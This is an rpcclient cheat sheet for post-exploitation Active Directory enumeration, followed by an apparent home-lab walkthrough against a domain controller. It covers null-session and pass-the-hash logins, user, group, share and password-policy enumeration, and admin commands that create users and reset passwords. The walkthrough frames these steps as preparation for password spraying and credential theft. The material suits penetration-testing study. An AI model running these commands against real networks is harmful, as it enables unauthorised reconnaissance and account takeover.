







Post-Exploitation Enumeration (RPCClient)
CheatSheet
Before running commands, you must establish a session.
| Scenario | Command |
|---|---|
| Null Session (Anonymous) | rpcclient -U "" -N <Target_IP> |
| Authenticated | rpcclient -U "username%password" <Target_IP> |
| Pass-the-Hash | rpcclient -U "username" --pw-nt-hash <NT_Hash> <Target_IP> |
| Domain Auth | rpcclient -U "DOMAIN/username%password" <Target_IP> |
Start here to get the "lay of the land."
• srvinfo: Get OS version (helps identify if it's Server 2016, 2019, etc.).
• querydominfo: Shows domain name, number of users, and number of groups.
• enumdomains: Identifies all domains deployed in the network.
• getdompwinfo: Crucial for Blue Teaming. Reveals password complexity, minimum length, and lockout policies.
• lsaquery: Provides the Domain SID.
These commands help you map out potential targets or audit account permissions.
◇ enumdomusers: Lists all domain users with their RID (Relative Identifier).
◇ queryuser <RID>: Get deep details on a specific user (Full name, Description, Password set time, etc.).
◇ enumdomgroups: Lists all domain groups.
◇ querygroup <RID>: Lists properties of a specific group.
◇ querygroupmem <RID>: Lists all members belonging to a specific group RID.
◇ enumalsgroups builtin: Lists built-in local groups (e.g., Administrators, Backup Operators).
Useful for deeper exploitation or understanding how Windows identifies objects.
◇ lookupnames <username>: Resolves a username to its full SID.
◇ lookupsids <SID>: Resolves a SID back to a username or group name.
◇ lsaenumsid: Enumerates SIDs from the Local Security Authority.
◇ enumprivs: Lists the privileges available to your current session.
netshareenumall: Lists all available network shares (including hidden ones like C$ or ADMIN$).◇ netsharegetinfo <share_name>: Shows the local path and permissions for a specific share.
◇ enumprinters: Lists printers; sometimes printer descriptions contain sensitive location or credential info.
If you gain Administrative access, you can manage the domain directly through the RPC shell.
◇ createdomuser <username>: Create a new domain user.
◇ setuserinfo2 <username> 24 <password>: Set a password for a user.
◇ deletedomuser <username>: Remove a user from the domain.
◇ chgpasswd <user> <old_pass> <new_pass>: Change a user's password.
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
rpcclient kaneki_ghoul25 Hypothesis: By querying the Server Information, we can determine the Operating System version and the server's role (e.g., Primary Domain Controller) to confirm we are targeting the correct infrastructure.
srvinforpcclient $> srvinfoPDC (Primary Domain Controller) and Tim (Time Source). This confirms 192.168.56.10 is the active Domain Controller.
Hypothesis: We suspect we can dump the full list of domain users (GAL) to build a target list for password spraying or social engineering.
enumdomusersrpcclient $> enumdomusersAdministrator (RID 0x1f4), itachi_anbu01 (RID 0x3e8), and service accounts like svc_deathnote.naruto_uzumaki07 and madara_uchiha91.
Hypothesis: Before attempting any brute-force or spraying attacks, we must verify the domain's password complexity and minimum length requirements to avoid account lockouts.
getdompwinforpcclient $> getdompwinfoDOMAIN_PASSWORD_COMPLEX (0x00000001).
Hypothesis: Investigating specific high-privilege users (like itachi_anbu01) may reveal account descriptions containing passwords or configuration details like "Password Does Not Expire."
queryuser itachi_anbu01rpcclient $> queryuser itachi_anbu01
Hypothesis: Mapping domain groups allows us to identify custom administrative groups (Shadow Admins) that might have the same privileges as "Domain Admins" but are less monitored.
enumdomgroupsrpcclient $> enumdomgroupsDomain Admins (RID 0x200) and Schema Admins.AKATSUKI-ADMINS (RID 0x450)JONIN-ADMINS (RID 0x451)GENIN-USERS (RID 0x452)
Hypothesis: We need to uncover exactly who is a member of the "Domain Admins" group to prioritize credential theft targets.
querygroupmem 0x200 (RID for Domain Admins)rpcclient $> querygroupmem 0x2000x1f4 (Administrator)0x3e8 (itachi_anbu01)0x453 (gojo_satoru69)0x454 (madara_uchiha91)
Hypothesis: We suspected RPC might reveal hidden shares that standard SMB scanning missed.
netshareenum / netshareenumallrpcclient $> netshareenumWERR_ACCESS_DENIED.kaneki_ghoul25. This demonstrates granular permission settings where a user can read AD objects (Users/Groups) but cannot enumerate file shares via RPC.
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}